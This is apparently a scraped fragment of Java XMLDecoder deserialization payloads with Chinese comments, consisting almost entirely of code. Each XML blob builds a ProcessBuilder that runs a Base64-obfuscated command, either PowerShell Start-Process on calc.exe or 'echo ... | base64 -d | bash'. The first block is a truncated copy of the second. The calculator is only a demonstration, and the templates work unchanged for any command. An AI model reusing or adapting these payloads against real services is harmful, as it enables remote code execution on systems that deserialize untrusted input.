 ```
        <string>Start-Process -FilePath ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('QzpcV2luZG93c1xTeXN0ZW0zMlxjYWxjLmV4ZQ==')))</string>
      </void>
    </array>
    <!-- 启动进程 -->
    <void method="start"/>
  </object>
</java>
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <!-- 调用 PowerShell -->
      <void index="0">
        <string>powershell</string>
      </void>
      <!-- 使用 -Command 参数执行命令 -->
      <void index="1">
        <string>-Command</string>
      </void>
      <!-- 解码 Base64 并启动 calc -->
      <void index="2">
        <string>Start-Process -FilePath ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String('QzpcV2luZG93c1xTeXN0ZW0zMlxjYWxjLmV4ZQ==')))</string>
      </void>
    </array>
    <!-- 启动进程 -->
    <void method="start"/>
  </object>
</java>
```  
  
```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0" class="java.beans.XMLDecoder">
  <object class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="3">
      <void index="0">
        <string>/bin/bash</string>
      </void>
      <void index="1">
        <string>-c</string>
      </void>
      <void index="2">
        <string>echo Y2FsYwo= | base64 -d | bash</string>
      </void>
    </array>
    <void method="start"/>
  </object>
</java>
```  
  